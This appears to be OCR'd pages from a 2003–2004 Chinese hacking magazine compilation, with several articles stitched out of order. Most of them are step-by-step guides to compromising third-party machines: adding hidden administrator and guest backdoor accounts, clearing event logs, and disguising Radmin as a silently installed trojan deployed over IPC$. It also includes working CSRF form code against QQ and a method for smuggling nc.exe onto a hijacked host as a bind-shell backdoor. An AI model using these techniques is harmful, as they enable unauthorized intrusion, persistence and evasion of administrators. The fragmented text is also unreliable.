我们已成功开启了SQL肉鸡的3389服务。等一会儿肉鸡会重启，我们在自动攻击探测器机上刚开启3389服务的IP，再扫一下这台肉鸡，看是否开了3389端口，如图11。对比一下图11和图10的区别。

刚才只有SQL空口令的IP，现在再扫一次就多开了3389端口，下面就用终端连接器连上吧！进入后如图12所示。

当然，连接之前不要忘了给自己添加一个管理员权限的帐户！命令为：

```
net user ev 1234 /add
```

```
net localgroup administrators ev /add
```

## 三、小 结

Radmin这款远程控制工具还是运用得相当广泛的。当然，用的人多了，就会有疏忽不设密码的。通过第二种方式我们可以快速判断肉鸡的操作系统，而且不用上传工具，也不用有管理员帐号，可轻轻松松开启肉鸡的3389服务。

接下来的工作不用我教了，怎么用肉鸡、怎么巩固肉鸡大家自己看《黑客X档案》相关文章吧！欢迎大家到http://www.hackerxfiles.net/bbs上交流，写此文只是为了帮助新手们快速找到自己的肉鸡，千万不要搞破坏！

（本文用到的如下工具光盘中有收录：Windows NT/2000自动攻击探测器、Radmin过滤器、3389终端连接器）


在局域网里我们会经常碰到弱口令机器，尤其是Win2000的机器，有的根本就没有设置管理员密码。当然，这样的机器一般都是Win2000专业版。其实，这主要是由Win2000专业版安装中的一个漏洞造成的，安装过程中没有提示要输入管理员密码。服务器版的就不一样，在服务器版的Win2000快安装完时会提示用户输入管理员密码。至于XP，即使XP管理员密码为空，你也进不去，因为XP默认不允许使用空密码进行连接。

大家在一个局域网里，估计没有人会那么变态。下面进入我们的正题，怎么控制对方的机器。

## 二、控制

一般你能扫出来的机器，别人也能扫出来，许多人同时用一台机器的资源未免太紧张了点。有没有办法让别人即使扫到了，也让他进不去呢？这正是我要说的，我们完全可用Win2000/XP自带的工具解决这个问题。主要操作都是在“计算机管理”中。


## 一、先声

这里我们要用到的扫描工具是Win2000扫描器。这个工具确实好用，只要被扫出来，肯定就是肉鸡，我们常用到的另一个扫描共享工具是Shed.exe。用它们俩可在局域网里扫描共享的电影等，但它们之间也有区别的。前者以查找肉鸡为主，进行IPC$连接尝试寻找肉鸡，找到肉鸡后，肉鸡上默认共享的几个盘就出来了，但隐藏共享扫不出来；不过这个的缺点也正是Shed.exe的优点，Shed能把所有共享的东东都扫出来，包括隐藏共享。这里顺便说一下隐藏共享，在共享文件名的最后加一个“$”就成了隐藏共享。要注意的是，共享文件名和我们共享文件的区别，你可不要直接在共享文件的名字后加一个“$”呀。访问时，只要输入它在网络上的地址就可以了，如我机器的IP为10.16.99.195，隐藏共享的文件为movies，共享文件名为movies$，只有在地址栏里输入\\10.16.99.195\movies$就能访问了。当然，如果我设置了密码，就打不开了。


## 三、扫描

上面说了那么多闲话，已经有人不耐烦了，下面我们开始。拿出我们的利器——Win2000扫描器，操作特别简单，我就不抓图了。在IP栏里输入IP，打开设置，在“搜索方式”里选择全新搜索，接下来设置一下字典口令，你可自己添加用户和密码，注意格式咯！这样，一些弱口令的机器就被扫出来了。线程数可改可不改，就看你自己选择。

点击“开始”进行扫描，不一会，就有战果了。扫出来后，我们就可完全控制对方硬盘上的文件了，可拷贝、删除文件等。不过，

在“管理工具”里打开“计算机管理”，或在“控制台”里打开。也可直接在“运行”里输入compmgmt.msc打开。打开后，光标在“计算机管理（本地）”上时点击“操作”菜单，点击“连接到另一台计算机”，输入肉鸡IP，就打开对方的计算机管理了。这里要注意一点，这些操作都是基于IPC连接的，并且要有相当的

黑客X档案 2003 2004年合订本(下册)

16

# 傻瓜黑客

权限。只要是扫出来的肉鸡，就不用再重新建立IPC连接。打开后你就基本控制了对方的机器。
我们一步步的来，打开“共享文件夹”，在“共享”里我们看到对方共享的盘符和所有文件（图1）。
我们可删除共享，也可重新共享文件。操作：右击空白处，选择“新文件夹共享…”打开“创建共享文件”对话框（图2），输入你要共享的文件的路径和文件名，确定即可。如果要停止共享文件，只需在要停止的文件上右击，选择“停止共享”即可。
打开“会话”，在“会话”里可看到所有连接肉鸡的机器。当然，其中也有你。在这里可关掉某个机器的会话，也可中断所有会话，你如果看那个不顺眼，就让他歇着去吧！操作：右击某个会话，选择“关闭会话”，确定即可。我们可把别人的会话都关了，只剩下自己的，这样整个肉鸡就都是你的了。下面看看对方的服务，点击“服务和应用程序”，打开“服务”，这样就可看到肉鸡上的所有服务了，如一些我们关心的服务：telnet、schedule、terminal services。另外，还有一些杀毒软件的服务，你看着不顺眼就关了。不过，我可没那么干过，要知道现在病毒这么猖獗，如果关了杀毒软件的服务，对肉鸡来说，那是相当危险的。
我们要用到肉鸡的Telnet服务，先修改肉鸡注册表的NTLM为0或1，再Telnet上去。当然，你也可用别的方法搞定NTLM验证，例如建个同对方一样的帐户，再用这个帐户打开CMD，然后Telnet上去；再者就是写个修改肉鸡NTLM验证的文件。Telnet上去后，做什么就看自己的了。下面说说具体的操作：在“运行”中输入regedit打开注册表，找到[HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\TelnetServer\1.0]，在右边窗口中找到NTLM，默认值是2，修改它的值为0或1。关闭注册表，启动肉鸡的Telnet服务，在本地机器上打开CMD窗口，输入telnet 肉鸡ip并回车，首先会出现提示，随便选择“y”或“n”，接着出现login：提示你输入登录帐户，输入administrator回车，再输入密码就行了。这样就Telnet成功了。
接下来做什么呢？首先看看对方的帐户信息，如果对方从来没用过administrator帐户，你可给他修改密码。这样下次别人就进不去了，只有你能进去，岂不快哉！如果对方经常用这个帐户，那你还是把guest帐户添加到管理员组里边，就用guest做你的后门吧！
下面是相关的命令：
（注：“/ /……”只是作为说明）
net user / /查看用户情况
net user administrator / /查看指定帐户的情况，注意：假如用administrator远程登录的，那么显示的administrator登录时间可是你Telnet上去的时间。

```
net user administrator hacked  //修改指定用户的密码，hacked为密码。如果要修改成空密码，则为net user administrator ""，注意是用英文输入两个双引号。
net user guest /active:yes //激活guest帐户。
net localgroup administrators guest /add //把guest加入到管理员组中去。
```

当然你也可以克隆guest账户，简单的方法是用CA克隆，不过这个CA可不是Win2000/XP自带的。你也可远程修改对方的注册表，只要把sam项的权限设置成administrator可以操作就行了。具体操作我就不说了，跟一般操作没什么区别，这方面的东西X档案已经说过很多了。如果修改的是guest账户，最后别忘了告诉对方把administrator帐户贴上密码。怎么做？用net send吧！格式为：
net send ip …… / / “……”为你要发的内容
好了，留了我们的帐户后门就够了。这里就不讨论留什么木马了。

## 痕迹

最后，把我们的痕迹擦干净。再回到“计算机管理”，打开肉鸡的“事件查看器”，看看它的日志，单击“应用程序”（图3），双击一个打开看看。为安全起见，我们还是把这些记录都删除了，右击“应用程序”，选择“清除所有事件”，提示是否保存，选择否即可。别的也一样操作。


我们此次用的工具都是Win2000/XP自带的，只要我们能Windows自带的工具用好就能简单玩控制了。同时，本人菜鸟一个，文章中有什么不当之处，还望各位大侠不吝赐教！

某日闲来无事，翻看前几期的《黑客X档案》，看到2003年第9期中介绍的关于共享扫描工具——shed的文章，很感兴趣，就从光盘中DOWN了下来。
我按照文中的介绍，运行Shed。噢！忘介绍了，我用的是XP操作系统，上网方式刚改为ADSL拨号，使用的是XP自带的ADSL拨号程序，因为每次开机上网都要拨ADSL，所以每次的IP地址也就不相同了。在CMD中输入ipconfig查看当前IP地址，然后根据这个IP地址，在Shed的起始及结束地址中填入相应的IP地址段（图1），然后点“GO”，开始扫描。
看到“活动扫描”窗口内显示了很多IP地址（图2），煞是激动啊！可看看这些地址从“活动扫描”窗口中一个个的消失了，程序的状态中也显示出了“Finished”，而在“显示共享资源”窗口中却没有显示出一个共享资源，怪了？不可能一个共享


# 傻瓜黑客


也扫描不到啊！


经过一番判断，我想 Shed 程序应该没问题，问题可能出在 XP 的 ADSL 拨号上。打开“控制面板”，双击其中的“网络连接”，在“网络连接”窗口中找到其“宽带”项内的 ADSL 拨号程序，在其上点右键，选择“属性”，在其“属性”窗口中显示有“常规”、“选项”、“安全”、“网络”、“高级”五个选项。逐一看过，最后将注意力集中到了“高级”项中的“Internet 连接共享”选项上，其中有一项“允许其他网络用户通过此计算机的 Internet 连接来连接”，如图 3。该选项默认是没有被勾选的，是不是因为没有允许其他用户连接，所以即使 Shed 扫描到了共享，也不能显示出来？

带着试试看的想法，在这一项前打上勾，然后点“确定”。这期间，系统会有些提示，其中有一项如图 4，意思是如果启用连接共享，会把 LAN 适配器的 IP 地址设为 192.168.0.1，同时还会影响与其他计算机在网络上的连接，是否确定启用 Internet 连接共享！因为是测试，当然点“是”了。但稍候在屏幕右下角出现了“系统错误”提示（图 5），IP 地址与网络上的其他系统有冲突，可能是由于启用了共享，本机的静态 IP 地址被设成了 192.168.0.1 的缘故，那就修改一下 IP 地址。


下面我们打开“网络连接”窗口，在其中的“LAN 或高速 Internet”中的“本地连接”网络图标上点右键，选择“属性”，双击其中的“TCP/IP 协议”，打开“Internet 协议(TCP/IP)属性”窗口，如图 6。可以看到，其中的 IP 地址已被修改为 192.168.0.1，现在我们手动将其改为一个别的地址，如我将“IP 地址”改为了：192.168.6.1，网关也是这个地址，然后点“确定”，完成对 IP 地址的修改。XP 就有这点好处，修改网络属性后不用重启计算机。


下面就可测试 Shed 程序了，因为修改了 ADSL 拨号程序的一些设置，所以先断开连接，再重新拨号入网，这时已不再提示 IP 有冲突了。打开 Shed，还是填入刚才的那个 IP 地址段，点“GO”开始扫描，在经过目不转睛的凝视后，战果出来了（图 7），在“显示共享资源”窗口内显示了该 IP 段内所有的共享资源。哈哈！其中还有不少带 ADMIN$ 符号的计算机，那就用最近的 MS04011 溢出对这些 XP 或 Win2K 来一次安全测试吧！

因工作需要，我有时需要在网上找些视频文件。当找到那些文件想右击保存文件时，却听到一声清脆的“beep”，然后弹出一个对话框：“谢谢观赏”（图 1）！


这可难不倒我，好歹我追随着 X 档案也有段时间了。于是我按照以前《X 档案》上介绍的方法——去试，我倒！竟然不成功！现在右键限制的屏蔽方法在技术上提高不少（对我等小菜来说是这样的），用以前 X 档案上介绍的老方法有些力不从心了，只能靠自己了。

我到网上溜达了一圈，还真觅得一种新方法：在屏蔽鼠标右键的页面中点击右键，出现警告窗口，此时不要松开右键，用左手按键盘上的 ALT+F4 键，提示窗口就被我们关闭了，松开鼠标右键，就可成功了。

# 突破网页右键限制又一招

李文斌

我用如上方法一试，还是不行。没办法，只好用我最后一招了。点击“查看→源文件”，这个操作它总不会屏蔽掉吧？

于找到了解决方案：在浏览器的地址栏输入 javascript:alert(document.oncontextmenu='') 就可让其中的“Stop”起不了作用，随后就会弹出一个没有内容的对话框，如图 2。

我找啊找，找到其中的这一句：document.oncontextmenu=stop，这是一个关键，我们要让其中的“Stop”不起作用。但要怎样才能让其中的“stop”失效呢？我又不是很懂 JavaScript。于是我查阅了相关书籍，询问了懂 JavaScript 的一些朋友，终


别关了它，按住右键别放，用左键点确定关闭该对话框，此时您的手指还紧按着右键没松手吧？移到你需要的这个链接上放开手指，看到了吧！熟悉的右键菜单出来了（图3）。


之后点“目标另存为”（图4）。怎么了？下载回来怎么文件只有23KB？仔细一看是***.html文件（图5）。

右击该html文件，选择“打开方式→记事本”，查找一番，很快就会发现一个文件地址，这就是在线视频文件的源地址了（图6）。


打开影音传送带，选择“任务→新建下载任务”，把这个文件的源地址复制到新建下载任务的“URL”里，点“确定”。Ok！你已经下载了需要的视频文件（图7）。


还有一种下载在线视频文件的方法：打开在线视频文件时，如果出现的是Windows Media Player播放器所播放的，大可查看它的属性，你会发现属性里就有文件的源地址。用上面的方法下载即可，如下载下来的是asp结尾的文件，就用记事本来打开，以查看源地址。如果出现的是Real One Player播放器所播放的，也可用上述方式来完成。

（本文提到的影音传送带光盘有收录）


# Winrar配合“海阳顶端”进行批量上传

ccbi

前段时间动网上传ASP文件漏洞闹得沸沸扬扬（《黑客X档案》2004年6期有介绍），小菜我当然也试了几把，屡试不爽！但传个海洋顶端后只是放在上面闲着吗？岂不是太浪费资源了？由于笔者水平有限，在没授权的情况下不敢进一步入侵，因此我决定在上面开个论坛（被发现了也没什么，又没搞破坏，我是这样想的^_*）。但如果一个个地传文件的话，岂不是要传大半天。于是我想到了一种方法……

我想，如果一次性地把论坛都传上去该多好。说到这儿，有的朋友可能已经想到了，就是把文件压缩后再上传，可问题是传上去后如何解压呢？海洋顶端又不是图形界面连接的。想了很久，灵感就来了……

大家还记得《黑客X档案》2004年第6期上的“校园恶作剧之自动关机”一文吗？里面是利用Winrar在DOS下的运行命令进行解压的。打开CMD，用CD命令进入Winrar的安装目录，输入了rar /?后会列出很多命令参数，在“<命令>”下面找到了“x”这个参数，格式是：rar.exe x 压缩文件路径 释放路径

在多次试验中，我一般遇到两种情况：一种是用海洋顶端可查看所有盘的内容；还有一种就是只能查询论坛所在目录内容。具体原因就不讲了，只有第一种情况可以实现我们的目的。一般的服务器都会自带Winrar，但一般我们都不能用（没有足够的权限运行非论坛目录下的文件），所以要先上传一个Winrar(一共只传了20个文件左右)，如图1。然后再上传压缩后的论坛。

都传完之后，执行rar.exe x 压缩文件路径 释放路径。我这里就是D:/abc/def/rar/rar.exe x D:/abc/def/3.rar D:/abc/def/（图2），此处的路径都是修改过的，“3.rar”为论坛的压缩文件，解压结果如图3。当然，大家也可上传其他东西。

rar.exe还有一个应用，就是可以把文件放到其他目录下面，我们只用海洋顶端是不能在其他目录下上传文件的（图4），但配合Winrar就可以了。

比如我们想上传文件到C:\，只需将最后的路径改成C:\即可，如D:\abc\def\rar\rar.exe x D:\abc\def\3.rar C:\（图5）。

注：以上方法只要你能得到运行Winrar的权限就可实现。


图3


# 傻瓜黑客

## 使用STRCM 自动实现Remote Administrator服务端的远程安装、远程启动

愚善 hp

Remote Administrator（以下简称Radmin）是款非常优秀的远程控制软件，它使你能通过自己的计算机在远程的另一台计算机上工作。
Radmin最大的特点是速度快，它在速度方面胜过任何已知的，包括Pcanywhere、Timbuktu等在内的远程控制软件。在以全屏方式运行时，你常常会忘记正在工作在远程计算机上！
STRCM全称是“SystemTools Remote Control Manager”，即“系统工具远程控制管理器”。STRCM不是一个远程控制工具，本身不提供任何远程控制功能，而是一个结合工具——它可帮助远程控制软件自动实现服务端的远程安装、远程启动、远程卸载。
下面，我向大家介绍如何把Remote Administrator与STRCM结合起来，以自动实现Remote Administrator服务端的远程安装、远程启动。

### 一、Radmin的下载和安装

Radmin的官方下载网站是www.radmin.com。当前服务端最新版本是2.1版，客户端最新版本是3.0版。安装过程略。

### 二、对Radmin服务端进行设置

1. 选择“开始→程序→Remote Administrator v2.1→Settings for Remote Administrator server”，会弹出“options for remote administrator server 2.1”的对话框。现在我们可以对要安装的服务端进行设置了。
设置时应注意：Radmin是个远程控制工具，默认情况下，服务端运行后，会在系统托盘区内显示一个托盘图标。如果把鼠标放在该图标上，会显示出此时正连接在此计算机上远程客户端的IP地址，连接端口为4899，连接时不需要密码。所以我们要把它改造成“为我所用”的“木马”，至少要三项工作：设密码、改端口、隐图标。

2. 设密码。点击“Set password”，在弹出的对话框中设置密码。要注意的是，Radmin要求密码至少为8位，在此我将密码设置为“12345678”。如图1。


3. 改端口、隐图标。点击“Options”，在弹出对话框的“Port”中禁用“Use default port”，并在框中输入欲设置的端口号，此处将端口设置为1234；在“Tray icon”中启用“Hide tray icon”。如图2。


### 三、从注册表中导出Radmin服务端的设置

1. Radmin服务端设置保存在注册表中“HKEY_LOCAL_MACHINE\SYSTEM\Radmin”的子键下，这样我们就可通过“导出注册表有关子键”的方式来备份服务端配置，通过“导入注册表有关子键”的方式来应用服务端配置了。

2. 选择“开始→运行→输入regedit”来打开注册表编辑器，然后选择“文件→导出...”来导出“HKEY_LOCAL_MACHINE\SYSTEM\Radmin”子键（在弹出的导出注册表文件窗口的最下面要勾上“所选分支”选项），导出文件命名为config.reg。如图3。


### 四、编写一个脚本文件

编写一个脚本，将其命名为root.vbs。脚本文件内容如图4。


主要命令的含义如下：

- "regedit.exe /s config.reg" ——以安静方式（不出现任何提示）导入注册表。
- "r_server.exe /install /silence" ——以安静方式把Radmin服务端安装为服务。
- "r_server.exe /start" ——执行r_server，使所在计算机变成临时性的Radmin服务器（重启后就停止了）。

### 五、用Winrar对服务端进行压缩

在压缩前，先将待压缩的文件复制到同一目录中。待压缩的文件包括Radmin服务端运行时的可执行文件和有关支持文件：r_server.exe、AdmDll.dll、raddrv.dll，还包括含有服务端有关配置的config.reg文件和脚本文件root.vbs。待压缩的文件如图5。


# 傻瓜黑客

步骤一、“常规” 设置
运行 Winrar，在“常规”选项中进行图 6 所示的设置。


步骤二、“高级→SFX 选项→常规”设置
如图 7 所示。“释放路径”选择“在当前文件夹中创建”，“释放后运行”输入 root.vbs。即前面编写的脚本文件名称。


步骤三、“高级→SFX 选项→模式”设置
设置如图 8 所示。“沉默模式”选择“全部隐藏”，“覆盖方式”选择“覆盖所有文件”。这两项设置的目的是使该压缩文件实现安静地解压缩和运行，即没有任何提示。


经过上述操作，一款优质木马就在你手中诞生了。与原来的服务端相比，新的服务端具有如下优点：

- 1. 文件数量少、体积小、复制上传方便。新服务端只有 1 个文件，体积为 259k；原服务端有 3 个文件，体积为 352k。
- 2. 灵活性强。在图形界面中通过双击来运行或者在命令行中通过输入文件名称来运行文件时，对于新服务端而言，可按照预先的设置来运行；对于原服务端而言，只是简单地运行，运行的结果是将所在服务器变成临时性 Radmin 服务器（重启就停止了）。


### 一、STRCM 的下载和安装

STRCM 官方下载网站是 http://www.systemtools.com/STRCM_frame.htm。下载后，运行 setup.exe 进行安装。STRCM 在安装时，只是创建一个安装目录并将所有文件复制到此目录中，没有对注册表、dll 文件、系统做任何改变，而且只有一个文件 STRCM.exe。所以，可在安装后将STRCM.exe 提取出来，以后需要使用时不需安装，只要把该文件复制到某个位置就可以了。绝对绿色环保！

### 二、为Remote Administrator 修改配置文件

```
[Config]
SelfDestruct=0
ServerType=UNC
Enable1=1
...
```
图 9

STRCM 对远程控制软件的操作，是通过一个扩展名为 .rcm 的纯文本文件进行配置的，这个纯文本文件是标准的 .ini 格式。在安装 STRCM 时，一个用来安装 vnc 的 .rcm 示例文件（vnc.rcm 已）已被安装了。如果其他远程控制软件要使用 STRCM，可以对示例文件 vnc.rcm 进行修改，以生成相应的 .rcm 文件。vnc.rcm 的内容如图 9。
其主要选项含义及修改情况如下：

| 项目 | 说明 |
| --- | --- |
| `SoftwareType=VNC` | 设置远程控制软件的名称，显示在STRCM的“软件类型”框中。此处应设置为“Radmin”。 |
| `AutoExecute=0` | 此选项值为 1 时，STRCM 立即按相应的设置执行。此选项只在 STRCM 带上所有必须的参数以命令行方式运行时才生效。此处应设置为 1。 |
| `ViewerCommand=vncviewer.exe %computer%` | 此选项设置远程控制软件 viewer 程序（即客户端）的名称（也可加上路径）。%computer% 标志可用来将主机名称传递到 viewer 程序。此处应设置为 “Radmin.exe %computer%” |
| `AutoTerminateAfterViewing=0` | 此选项值为 1 时，STRCM 在执行一次 view 操作后，立刻退出。此选项只在 STRCM 在带上所有必须的参数以命令行下运行时才生效。此处应设置为 1。 |
| `DestinationDirectory=\%computer%\admin$\system32\rc` | 此选项指定要向远程计算机中复制文件的目录。安全提示：选择一个不显眼的路径、目录名称来作为远程控制软件安装的位置，可增强安全性。此处设置为 \%computer%\admin$\system32\sysRadmin。 |
| `FileList=winvnc.exe;othread2.dll;vnchooks.dll` | 此选项包含了一系列用分号分隔的文件名列表，它指定了要复制到远程计算机目录中的用于安装远程控制软件的文件。此处设置为 “sysinstall.exe”。 |
| `InstallService=0` | 此选项值为 1 时，将远程控制软件安装为服务。值为 0 时，只复制文件并进行适当的注册表设置。此处应设置为 1。 |
| `ServiceNames=WinVNC` | 此选项控制 STRCM 安装远程控制服务时启动、停止所使用的服务名称。如果使用多个名称，则用分号分隔每个名称，例如 WinVNC；VNC3;XWinVNC。在安装服务时，STRCM 安 |

黑客X档案 2003 2004年合订本(下)


# 傻瓜黑客

装将以下拉框形式提供这些名称。当启动远程控制服务时，STRCM将查找每个名称并试图启动每一项服务，直到找到一个匹配的名称。

安全提示：修改默认的服务名称，可增强安全性。

此处设置为“sysRadmin”。

```
ServiceDisplayName=VNC
```

此选项设置在“控制面板”或其他图形工具中的友好显示名称。该选项只在“InstallService”值为1时生效。

安全提示：选择一个不表明远程控制软件性质或与远程控制软件不相关的名称，可增强安全性。

此处设置为“sysRadmin”。

```
ServiceExeName=winvnc.exe
```

此选项指定进行远程控制服务安装的程序名称。该选项只在“InstallService”值为1时生效。

安全提示：将远程控制服务安装文件重命名为有助于掩饰其远程控制软件性质的名称，可增强安全性。

此处设置为“sysinstall.exe”。

经过修改，生成的Radmin.rcm文件内容如图10。


## 三、使用STRCM自动进行远程安装、远程启动和远程卸载

1.使用STRCM的前提是：必须能与远程计算机建立有远程管理权限的IPC连接。先建立IPC连接，如图11。


2.使用STRCM，自动进行远程安装。选择“Operation”为“Install”；点击“Find”，选择相应的rcm文件——Radmin.rcm；在“Remote Host Name or”中输入远程计算机的域名或IP地址，然后点击“Execute”，出现“Remote Control Software Installation Options”对话框，如图12。


“Password Options”选项只有在远程控制软件没有设置连接密码时才有效。此处设置的密码就是安装成功后的winvnc远程控制密码。

设置后，点击“Ok”。如果安装成功，就可在“Message Window”中看到提示，如图13。


STRCM进行的自动远程安装所执行的操作是将指定的文件复制到远程计算机上，并按照.rcm配置文件执行有关操作（本次主要是向远程计算机安装服务）。向远程计算机复制文件的情况如图14。


黑客X档案 2003 2004年合订本(下册)

16

# 傻瓜黑客

向远程计算机安装服务的情况如图15。

3.使用STRCM，自动进行远程启动。
选择“Operation”为“Start Service”，其余不变。设置后点击“OK”。如果启动成功，就可在“Message Window”中看到提示，如图16。
STRCM进行的远程启动所执行的操作是启动已设置好的远程控制服务。在本次安装中，STRCM进行远程启动后，服务端最显著执行的结果是把Radmin作为服务来运行了（重启后自动运行），同时也把所在计算机变成Radmin临时服务器了（重启后自动停止）。
这样做的目的是使远程计算机在未重启之前，客户端就可进行连接。服务情况如图17。
进程的情况如图18。


经过以上步骤，客户端已经可以成功地连接到服务端了。如图19。


至此，本次安装已基本完成，但还有很重要的工作要做。在本次安装中，大家可看到：STRCM远程安装服务只是一个“手段”，而不是目的。真正的目的是通过安装服务并把要执行的文件设置为该服务的可执行文件，使得在执行“远程启动服务”操作时相应的可执行文件可被执行；STRCM远程安装的服务sysradmin无论如何是否启动，都不影响Radmin服务端的正常运行和使用。实际上，无论是直接启动该服务或者等计算机重启后自动启动该服务，sysadmin都不能启动，因为它的可执行文件在运行时会解压缩文件复制到系统目录中，并运行其中的一个文件来安装另一项服务。所以，sysradmin服务对应的可执行文件只能执行一次，第二次执行（无论是直接启动该服务还是等计算机重启后自动启动）时不但不能成功，而且会出现错误提示（一个很大的消息框），容易暴露服务端的情况。另一方面，远程计算机管理员通过查看该服务以及相应的可执行文件，也可能获得服务端的情况。所以，在远程安装、启动服务后，执行远程卸载来删除该服务及上传的有关文件是非常有必要的。

4.使用STRCM，自动进行远程卸载
卸载过程略。如果卸载成功，可在“Message Window”中看到提示，如图20。


卸载后你可发现仍然能成功连接！

## 后记

有关软件建议可直接从官方网站下载，原因很简单：一是可靠，不会被捆绑上任何木马或后门之类的东东；二是更新快，当有新版本出现时，可第一时间得到。当然，在保证来源可靠性的前提下，也可下载汉化版以方便使用。
Remote Administrator在使用前应注册，以免前功尽弃。如果未注册且radmin运行的时间超过30天试用期，则会出现“评估期已过，请输入注册码以便继续使用程序”的提示信息。客户端倒没什么，但服务端就……
注册信息必须同时在服务端和客户端分别输入。为了注册服务端，在客户端右击连接列表中的图标并选择“set registration code”，然后按照提示进行。你也可在服务端通过“关于”框来注册。

> （本文涉及的以下内容光盘中有收录：radmin影子版3.0的控制端、从官方网站下载的radmin21、从官方网站下载的strcm1.11）

去QQ交友中心看过网友资料的朋友都应该知道，网友资料页面上有个“好感指数”，这次我要讲的内容就是围绕它的。
大家都知道，如果要给某个好友增加“好感指数”，只需先用QQ登陆交友中心，然后点网友资料页面下方的“赠送好感指数”，然后选择1-9就可以了。腾讯在这1-9的分值上存在着很严重的漏洞，下面我们来说一下：

# 腾讯QQ漏洞之交友篇

王力

## 1. 给好友加分

使用http://www.sadcity.org/qq/love.asp?id=好友交友中心编号&num=所需要加的分值这样的方式来给好友加任意分数，比如http://www.sadcity.org/qq/love.asp?id=10501469&num=100。如果：http://love.qq.com/cgi-bin/userinfo?userid=10501469这个是好友详细资料的地址，那么userid=10501469中的数字10501469就是“好友交友中心编号”；另外的“所需要加的分值”就不用说了吧，要加100分就写上100，以次类推（图1）！

## 2. 给好友减分

仍然用上面的方法，但只要把“所需要加的分值”这里的数字改成负数就可以了。比如上面那个好友，可使用http://www.sadcity.org/qq/love.asp?id=10501469&num=-10这个地址使那个好友的好感指数减少10分（图2）。

## 3. 加减分页面代码

上述加减分方法可使用静态页面代码和动态页面代码，以上使用的是ASP方法，下面我们就来分别说说那些代码。

（1）html静态代码如下（演示地址：http://www.sadcity.org/qlove.html）：

```
<form action="http://love.qq.com/cgi-bin/qlove_user_addfavor" target=_blank>
编号：<input type=“text” name=“userid” value=“”><br>
分数：<input type=“text” name=“favor” value=“”>
<input name=“submit” type=“submit” value=“确定”></form>
```

注释：主要使用外部表单提交。

（2）ASP动态代码如下（演示地址：http://www.sadcity.org/qlove.asp?id=好友交友中心编号&num=所需要加的分值）：

# 傻瓜黑客

```asp
<%
dim id,num
id = request.querystring("id")
num = request.querystring("num")
if id <> "" and num <> "" then
%>
<html><head><META http-equiv=Content-Type content="text/html; charset=gb2312"></head>
<body>
<form action="http://love.qq.com/cgi-bin/qlove_user.addfavor"><input type="hidden" name="userid" value="<%=id%>"><input type="hidden" name="favor" value="<%=num%>">
<script> this.document.forms[0].submit();
</script></form>
</body></html>
<%
else
response.write "笨笨, 出错咯!"
end if
%>
```

注释：使用其中“id = request.querystring("id")”和“num = request.querystring("num")”取得HTTP的附加参数（即“好友交心中心编号”和“所需要加的分值”），然后分别把那两个参数传递给id 和num 这两个变量。接着就利用外部表单自动提交，直接把这两个变量值分别发送到腾讯那个处理页面进行加减分，其中有一句`<script> this.document.forms[0].submit(); </script>`，这个就是最主要表单自动提交语句。

## 4. 注意事项

上述操作都必须用自己的QQ先登陆QQ交友中心，登陆地址为 http://love.qq.com。然后直接在登陆那个页面的IE窗口中使用上面那两个地址，或者自己做个页面来用！

## 5. 漏洞原理

此漏洞原理有两方面：数据未在服务器端限制和未禁止外部表单提交，只要这两者中有一者受到了限制，那么就无法做到随意增减“好感指数”分值了。
首先，关于数据未在服务器端限制的说明。
腾讯在送“好感指数”的操作上仅仅是在客户端浏览器上做了个简单的1-9的限制，这样的方法对那些细心的人来说起不到什么作用，可用我上述方法直接取消这个限制。如果腾讯把限制做在服务器端上就没什么问题了，比如他们可在服务器端脚本上用一个判断，判断从客户端提交过来的数据值是1-9中的哪个数值，然后进行响应，以增加“好感指数”操作，如果不在1-9的范围内就报错。
其次，关于未禁止外部表单提交的说明。其实很多网站在处理表单提交时，都没有在服务器端对来自非本地的表单提交进行禁止，这样有时是很危险的，比如这个QQ漏洞。要解决这个问题，其实很简单，只要取两个类似HTTP_REFERER和SERVER_NAME这样的值，再在经过数据筛选后进行比较就OK了。如果这两个值相同，那么验证就通过，否则就报错。如果腾讯使用了这个限制，那么即使做了上面的页面，也不能随意增减“好感指数”啦！
当然，除了这两个关键性的操作外，还有其他一些限制方法，比如IP限制、QQ号码限制……不过，数据在服务器端限制和禁止外部表单提交这两个方法做起来是最简单的！
大家趁腾讯还没有堵住这个漏洞之前尽情地玩吧，嘿嘿！


纵观N年来的肉鸡文件上传方法，似乎只有一种，即直接把文件传上去。也就是说，直接想办法把要传送的文件传到目的地，但今天我们要另辟蹊径。当你拿到一个shell后，想尽一切方法却无法向肉鸡上传文件时，本文介绍的方法可能会成为你的救命法宝噢！
笔者想到这个方法，缘于一次美丽的“邂逅”。某日，“无意中”拿到了一台主机的CmdShell，然后就是留个后门了，后门很简单，就是在启动时用NC自动绑定cmd.exe。所以要先把nc.exe上传到肉鸡上，但问题来了。首先我用tftp上传，但失败了，管理员删除了tftp.exe。用Ftp试试吧，打开自己的Serv-U，发现对方将防火墙的对外FTP请求作了限制！没办法，自己动手写一个可用HTTP协议下载的vbs脚本试试，写完后擦了一把汗，发现管理员把脚本解析器给改名了，晕倒……剩下的时间里，我试了能想到的所有文件上传方法，结果都失败……
就在我无奈之时，无意中发现了一个小工具——exe2bat.exe，说实话，我都不知道它是怎么进入我电脑的，看名字就知道是款将.exe文件变成.bat的工具。我顿时来了灵感，察看了exe2bat.exe的用法：
`exe2bat.exe input.exe output.bat`

用exe2bat.exe先处理一下nc.exe，如图1。


处理后得到一个名为nc.bat的文件，我可不是把这个bat文件上传，这样和直接上传nc.exe就没什么区别了。用记事本打开nc.bat，发现每句都是用echo命令把一组十六进制数写入文件，直到最后内容如下：

```bat
@echo rcx>>tyis
@echo B200>>tyis
@echo n tyisGRAY>>tyis
@echo w>>tyis
@echo q>>tyis
@debug<tyis>nul
@del tyis
@ren tyisGRAY nc.exe>>tyis
@nc.exe
```

这时你一定想到了，exe2bat.exe是先将.exe文件转换为十六进制，然后将这些十六进制代码放入批处理中写入文件，然后用debug在内存中把原先的nc.exe还原出来！这样就不会损坏文件了，真是巧妙的方法。

黑客X档案 2003-2004年合订本(下卷)

# 傻瓜黑客

> > 注意：用 exe2bat.exe 生成的 .bat 文件中有一个错误，就是 @ren tvisGRAY nc.exe>>tvis 这一句，这样会在对方主机上留下一个空文件 “tvis”，正确的应该改成 @ r e n tvisGRAY nc.exe。由于这个批处理是程序生成的，所以难免有 Bug。

现在我们开始上传！注意上传的并不是一个文件。我们要把 nc.exe 以“文本”的方式上传到肉鸡去！用记事本打开那个生成的 nc.bat，把最后两句删除掉，即以下这两句（如图 2，只保留图 2 中标记以后的所有内容）：

```
F:\>@ren_tvisGRAY nc.exe>>tvis
@nc.exe
```


